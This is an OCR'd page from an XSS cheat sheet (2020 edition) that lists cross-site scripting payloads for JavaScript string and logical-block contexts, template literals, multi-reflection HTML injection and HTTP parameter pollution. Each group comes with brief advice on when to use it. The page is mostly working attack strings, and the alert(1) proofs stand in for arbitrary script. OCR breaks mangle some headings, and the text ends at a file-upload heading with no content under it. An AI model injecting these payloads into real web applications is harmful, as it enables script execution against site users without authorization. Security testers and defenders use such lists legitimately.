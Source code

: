 ```

## Javascript Injection - Logical Block
Use 1st or 2nd payloads when input lands in a script block, inside a string delimited value and 
inside a single logical block like function or conditional (if, else, etc). If quote is escaped with
a backslash, use 3rd payload.
```
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```


## Javascript Injection - Quoteless
Use when there’s multi reflection in the same line of JS code. 1st payload works in simple JS variables and 2nd one works in non-nested JS objects. 
```
/alert(1)//\
/alert(1)}//\
```


## Javascript Context - Placeholder Injection in Template Literal
Use when input lands inside backticks (``) delimited strings or in template engines.
```${alert(1)}```


## Multi Reflection HTML 
Injection
 - Double Reflection (Single Input)
Use to take advantage of multiple reflections on same page.
```
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1=' 
*/alert(1)</script><script>/*
```


## Multi Reflection i HTML 
Injection
  - Triple Reflection (Single Input)
Use to take advantage of multiple reflections on same page.
```
*/alert(1)">'onload="/*<svg/1=' 
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```


## Multi Input Reflections HTML 
Injection - 
 Double & Triple
Use to take advantage of multiple input reflections on same page. Also useful in HPP (HTTP
Parameter Pollution) scenarios, where there are reflections for repeated parameters. 3
rd
payload makes use of comma-separated reflections of the same parameter.
```
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)
```

## XSS Cheat Sheet – 2020 Edition
________________________________________________________________________________
File Upload Injection – Filename
```
